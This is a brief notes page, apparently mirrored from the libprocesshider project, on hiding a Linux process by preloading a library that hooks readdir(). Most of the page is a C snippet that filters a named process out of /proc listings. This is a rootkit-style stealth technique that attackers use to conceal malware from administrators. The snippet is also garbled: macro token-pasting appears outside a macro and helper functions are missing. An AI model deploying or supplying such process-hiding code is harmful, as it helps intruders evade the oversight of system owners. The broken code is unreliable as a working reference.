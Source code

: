 ## libprocesshider
Hide a process under Linux using the ld preloader.

Full tutorial available at https://sysdigcloud.com/hiding-linux-processes-for-fun-and-profit/

通过hook `readdir`实现进程隐藏
```
struct dirent* readdir(DIR *dirp)
{ 
  if(original_##readdir == NULL) {                  
    original_##readdir = dlsym(RTLD_NEXT, #readdir);       
    if(original_##readdir == NULL)                
    {                               
      fprintf(stderr, "Error in dlsym: %s\n", dlerror());     
    }                               
  }                                 
                                    
  struct dirent* dir;                         
                                    
  while(1)                              
  {                                 
    dir = original_##readdir(dirp);                 
    if(dir) {                           
      char dir_name[256];                     
      char process_name[256];                   
      if(get_dir_name(dirp, dir_name, sizeof(dir_name)) &&    
        strcmp(dir_name, "/proc") == 0 &&           
        get_process_name(dir->d_name, process_name) &&    
        strcmp(process_name, process_to_filter) == 0) {     
        continue;                       
      }                             
    }                               
    break;                            
  }                                 
  return dir;                             
}
```   
## References
- [libprocesshider](https://github.com/gianlucaborello/libprocesshider)

